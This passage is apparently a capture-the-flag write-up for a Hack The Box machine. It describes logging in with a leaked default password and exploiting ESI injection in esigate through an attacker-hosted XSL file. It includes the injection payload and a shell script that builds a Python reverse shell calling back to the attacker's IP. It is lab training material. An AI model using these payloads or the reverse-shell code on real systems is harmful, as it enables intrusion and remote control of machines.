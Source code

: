 ##### Connectivity.pdf

This pdf has some instructions with default credentials

```
How to Connect ?
1. Once router is up and running just navigate to http://172.15.0.4/quick_login.jsp
2. You can use your registered email address and Quick4cc3$$ as password.
3. Login and change your password for WiFi and ticketing system.
4. Don’t forget to ping us on chat whenever there is an issue.
```

### Ticketing System

We now have a default password for the login page we found on the main site, and some potential emails. Let's try variations of the emails for the
users which have had no issues(see the testimonials), meaning they probably haven't had to access the support portal, and the password might not have
been changed. Using the potential emails, we find that `elisa@wink.co.uk:Quick4cc3$$` works as a login, and we have access to the ticketing system
at [http://quick.htb:9001/home.php](http://quick.htb:9001/home.php)

#### ticket.php

We can make a ticket with an idea that we can later search. The ticket ID is TKT-####

#### search.php

Given a ticket ID we can search with the ticket id as part of the url parameter. Seems to allow all kinds of tags and XSS but can't seem to make any request hit my server. However, we know from our previous research that if we can reflect a tag, we can exploit esigate.

#### esigate

Now to take advantage of the vulnerability in esigate(https://www.gosecure.net/blog/2019/05/02/esi-injection-part-2-abusing-specific-implementations/).  There's a number of moving parts here. First we need to sign in, run our local server to serve up the `evil.xsl` file, and submit this payload as a ticket description:

```xml
<esi:include src="http://127.0.0.1:9001/index.php" stylesheet="http://10.10.14.39.com/quick/evil.xsl">
</esi:include>
```

Then we need to make the request to `search.php` with the appropriate TKT number so that esigate processes the reflected tags. This initiates the request to our local server, which serves the `evil.xsl`, which makes the call to java's exec, giving us RCE. Once we have RCE, we can try netcat but it doesn't seem the `-e` switch works? I was unable to get the python reverse shell to run directly(probably some encoding thing), so lets upload/download a python script and then run it. Don't forget to setup the netcat listener, and be running a local server to serve the `evil.xsl` file and the python reverse shell. This script will automate most of the process, but you may need to alter the paths to get it to work.

```bash
#!/bin/sh
# Run the local http server, a netcat listener on port 22473, and then run this script for a reverse shell

# Get our IP on HTB
htbip=$(ifconfig | grep "destination 10.10" | sed 's/.*destination //')
echo "htb ip ${htbip}"

# Create a python script for a reverse shell with the HTB ip
echo "import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(('${htbip}',22473));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call(['/bin/sh','-i'])" > rev-shell.py

```